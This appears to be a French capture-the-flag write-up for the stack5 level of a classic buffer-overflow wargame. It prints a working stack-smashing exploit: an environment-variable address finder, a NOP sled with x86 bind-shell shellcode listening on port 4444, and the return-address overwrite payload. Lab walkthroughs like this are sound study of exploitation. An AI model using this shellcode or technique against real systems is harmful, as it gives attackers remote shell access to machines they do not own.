 ```bash
$ ./stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
Segmentation fault
$ dmesg|tail -1
[11798.886479] stack5[1922]: segfault at 45454545 ip 45454545 sp bffffcf0 error 4
```

Au lieu de simplement zapper ce level voici un cas d'exploitation locale à l'ancienne.

J'écris d'abord le code suivant qui permet d'avoir l'adresse d'une variable d'environnement telle que chargée en mémoire (c'est le linker commun à tous les programmes qui se charge de les mettre dans la mémoire du programme) :

```c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
        printf("%s is at %p\n", argv[1], getenv(argv[1]));
        return 0;
}
```

On va affichier l'adresse de la variable d'environnement GREENIE utilisée plus tôt :

```bash
$ $ ./getaddr GREENIE
GREENIE is at 0xbfffff2c
$ ./getaddr GREENIE
GREENIE is at 0xbfffff2c
$ export A=B
$ ./getaddr GREENIE
GREENIE is at 0xbfffff28
```

On voit que l'adresse est assez stable mais sujette aux décalages si l'environnement évolue. Le nom du programme lancé fait aussi partie des données qui peuvent causer un décalage.

Maintenant je créé un nouvelle variable d'environnement qui contient un shellcode précédé d'un NOPsled :

```bash
$ export SHELLCODE=`python -c 'print "\x90" * 200 + "\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x56\x89\xe1\xcd\x80\x89\xc6\x31\xc9\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf2\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
```

Il s'agit de [Linux/x86 - Bind (User Specified Port) Shell (/bin/sh) Shellcode (102 bytes)](https://www.exploit-db.com/shellcodes/50124) qui écoute par défaut sur le port 4444.

J'écrase l'adresse de retour par l'adresse du shellcode telle qu'elle devrait être en mémoire :

```bash
$ /tmp/getaddr SHELLCODE
SHELLCODE is at 0xbffffec0
$ python -c 'print "z"*76 + "\xc0\xfe\xff\xbf"' | ./stack5
```
